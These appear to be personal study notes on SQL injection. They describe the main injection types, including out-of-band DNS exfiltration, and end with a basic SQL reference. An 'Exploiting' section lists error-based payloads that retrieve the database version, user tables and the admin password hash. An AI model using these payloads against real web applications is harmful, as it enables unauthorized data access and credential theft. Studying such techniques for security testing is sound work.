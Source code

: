 
# Types
- **In-Band** - Results are returned onscreen  
- **Error-Based** - Obtaining info about the db structure through error messages  
- **Blind-Based** - Little to no feedback given whether query works or not as error messages are disabled (can still use for auth bypass on login pgs)  
- **Union-Based** - Uses UNION operator alongside SELECT to return additional results  
- **Boolean-Based** - Where response only returns one of two options: true/ false  
• **Out-of-Band** - Relies on specific features enabled in the db or webapp logic which makes an external network call based on the SQL query results.  
	- Two different communication channels: one to launch attack, one to gather results  
	- Less common.  
		1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.  
		2. The Website makes an SQL query to the database which also passes the hacker's payload.  
		3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.  
  
Ex: DNS can be used to exfil data from a db


# Exploiting

```sql
-- Attempt to recover MySQL version
' or 1=1 in (select @@version) -- //

'-- Attempt to retrieve Users table
' OR 1=1 in (SELECT * FROM users) -- //

'-- If above errors out stating Operand should contain 1 column attempt to list a specific column
' or 1=1 in (SELECT password FROM users) -- //

' -- Attempt to get Admin's password hash
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
  
# SQL Statements:
  
```sql
-- Extract data from a db/ Select specific db or table
SELECT *

-- Insert new data into a db
INSERT INTO users (username,password) VALUES ('bob','password123');

-- Update data in a db
UPDATE users SET username='root',password='pass123' WHERE username='admin';

-- Delete data from a db
DELETE

-- Specify desired table
SELECT <column_name> FROM <table_name>

-- Filter records
WHERE id=1
WHERE username = 'admin'

-- Combine the result-set of two or more SELECT statements
	-- Each SELECT statement **MUST** return the same number of columns
UNION

```
